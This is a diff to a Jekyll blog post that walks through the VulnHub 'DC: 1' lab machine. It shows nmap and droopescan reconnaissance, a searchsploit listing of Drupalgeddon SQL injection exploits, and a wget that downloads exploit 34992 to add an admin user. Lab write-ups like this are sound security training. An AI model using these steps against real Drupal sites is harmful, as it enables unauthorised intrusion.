

Before and after one commit to firatfolcay/arszilla.github.io, a Jekyll site: the page built from _posts/2019-07-09-vulnhub-dc_1.markdown, in a window 1280 px wide and 1400 px high, scrolled down 2266 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Updated DC: 1

````diff
--- a/_posts/2019-07-09-vulnhub-dc_1.markdown
+++ b/_posts/2019-07-09-vulnhub-dc_1.markdown
@@ -35,7 +35,7 @@
 
 ## Walkthrough
 ### nmap
-We begin with a pretty basic `nmap` scan to see what we're dealing with
+We begin with a pretty basic `nmap` scan to see what we're dealing with.
 
 ```
 $ nmap -sC -sV 192.168.2.111
@@ -72,13 +72,16 @@
 
 We have `SSH` on Port 22, `HTTP` on Port 80 and `RPC` on Port 111.
 
-### HTTP
+### Drupal
 Taking a look at the HTTP, we are greeted with a Drupal website.
 
 ![Drupal - Homepage][Drupal - Homepage]
 
-Other than a login box, there is nothing helpful here; no version number, posts or such. As a result we'll use
-`droopescan` to find any info we can on the CMS.
+Other than a login box, there is nothing helpful here; no version number, posts or such. As a result we have to gather
+more information regarding the system.
+
+### Reconning and Exploiting Drupal
+To gather information on Drupal, we'll use [droopescan][Droopescan].
 
 ```
 $ pip install droopescan
@@ -110,31 +113,30 @@
     php http://192.168.2.111/modules/php/
 ```
 
-`droopescan` found us several possible versions for Drupal. With that in mind we'll use `searchsploit` to find any
-known exploits we can use to gain admin access to the page.
+`droopescan` found us several possible versions for Drupal but once thing is certain; it's `7.2x`. With that in mind,
+we'll search `searchsploit` to find any known exploits we can use to gain admin access. There are over 40 known
+exploits regarding Drupal, but the most relevant 6 are displayed above. The most useful among those 6 is
+`Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)`; which adds an admin user via SQL injection. Since
+our version is `7.2x` this exploit will work on our version of Drupal.
 
 ```
 $ searchsploit Drupal
 
-------------------------------------------------------------------------------- ----------------------------------------
-Exploit Title                                                                  |  Path
-                                                                               | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------- ----------------------------------------
+-------------------------------------------------------------------------------
+Exploit Title
+
+-------------------------------------------------------------------------------
 [...]
 
-Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)              | exploits/php/webapps/34992.py
-Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Admin Session)               | exploits/php/webapps/44355.php
-Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (1)    | exploits/php/webapps/34984.py
-Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (2)    | exploits/php/webapps/34993.php
-Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Remote Code Execution)       | exploits/php/webapps/35150.php
+Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)
+Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Admin Session)
+Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (1)
+Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (2)
+Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Remote Code Execution)
 
 [...]
-------------------------------------------------------------------------------- ----------------------------------------
+-------------------------------------------------------------------------------
 ```
-
-There are over 40 known exploits regarding Drupal, but the most relevant 6 are displayed above. The most useful among
-those 6 is `34992`; which adds an admin user via SQL injection. Since our version is `7.2x` this exploit will work on
-our version of Drupal.
 
 ```
 $ wget https://www.exploit-db.com/download/34992
````
Also changed, not shown: other parts of _posts/2019-07-09-vulnhub-dc_1.markdown (+3 -0 lines).
